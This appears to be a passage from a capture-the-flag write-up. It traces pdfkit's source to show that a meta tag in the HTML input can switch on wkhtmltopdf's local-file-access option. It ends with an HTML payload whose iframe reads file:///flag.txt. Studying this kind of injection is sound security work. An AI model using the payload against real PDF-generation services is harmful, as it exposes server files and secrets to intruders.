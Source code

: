 ```python
class Source(object):
    [...]
    def isString(self):
        return 'string' in self.type
```

```python
def from_string(input, output_path=None, options=None, toc=None, cover=None, css=None,
                configuration=None, cover_first=False, verbose=False):
    [...]
    r = PDFKit(input, 'string', options=options, toc=toc, cover=cover, css=css,
               configuration=configuration, cover_first=cover_first, verbose=verbose)

    return r.to_pdf(output_path)
```

After that, method `to_pdf` will convert the HTML string into a PDF file using wkhtmltopdf **and the options**:

```python
class PDFKit(object):
    [...]
    def to_pdf(self, path=None):
        args = self.command(path)

        if sys.platform == 'win32':
            [...]
        else:
            result = subprocess.Popen(
                args,
                stdin=subprocess.PIPE,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                env=self.environ
            )
        [...]
        stdout, stderr = result.communicate(input=input)
        [...]
```

With that said, we can **use `<meta>` tag to set option `--enable-local-file-access` to read local files**!!

## Exploitation

Armed with above information, we can read the flag file via the following HTML payload:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta name="pdfkit-enable-local-file-access" content="">
</head>
<body>
  <iframe src="file:///flag.txt" width="1000px" height="1000px"></iframe>
</body>
</html>
```
